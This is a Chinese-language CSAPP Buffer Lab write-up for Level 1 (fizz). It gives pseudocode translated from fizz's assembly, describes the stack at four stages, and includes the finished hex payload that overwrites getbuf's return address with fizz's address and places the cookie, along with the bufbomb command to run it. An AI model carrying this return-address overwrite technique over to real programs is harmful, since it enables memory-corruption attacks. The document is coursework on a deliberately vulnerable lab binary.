 ```cpp
%ebp = %esp;
%esp -= 0x18;
%eax =(%ebp) + 0x8
//if(0x804d108 == (%esp) + 0x4){这一句抄错了，导致我找了起码两个小时的bug
//正确的应该是下一句
if( (0x804d108) == eax ){
    (%esp) + 0x8 = %eax;
    (%esp) + 0x4 = 0x804a4ee;　
    (%esp) = 0x1;
    call <__printf_chk@plt>;
    (%esp) = -x1;
    call <validate>;
}else{
    (%esp) + 0x8 = %eax;
    (%esp) + 0x4 = 0x804a340;
    (%esp) = 0x1;
    call <__printf_chk@plt>;
}
(%esp) = 0;
call <exit@plt>;
```
下面是栈在四个时刻的状态

状态一：
getbuf函数执行ret时，把0x08048c42(即fizz函数的地址)取出作为转跳目标，随后esp-=0x4之后的状态，此时fizz函数中一条一句都没有执行

状态二：
执行了图中1)，2)两条语句，把esp的值存放在了之前0x08048c42的位置,并使esp,ebp两个寄存器的值为此处的地址

状态三：
又执行了图中3)语句，esp寄存器的值变了

状态四：
又执行了图中4)语句，将寄存器ebp指向的地址偏移0x8处的值存入寄存器eax

随后将寄存器eax中的值与cookie值进行比较，本地汇编代码中可以直接看到cookie值是0x804d108，但是实际传入的值应该要与username匹配

所以level1.txt在level0.txt的基础上，尾部多填入00 00 00 00 cookie(四字节)就好了
<img width="506" alt="image" src="https://github.com/RaDsZ2z/CSAPP/assets/129292565/3d2b7c13-7caa-4d77-abac-f1ee0afd45a4">

```cpp
/*
level1.txt:
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 42 8c 04 08
00 00 00 00 69 04 3d 3d
cat level1.txt|./hex2raw|./bufbomb -u random
*/
```
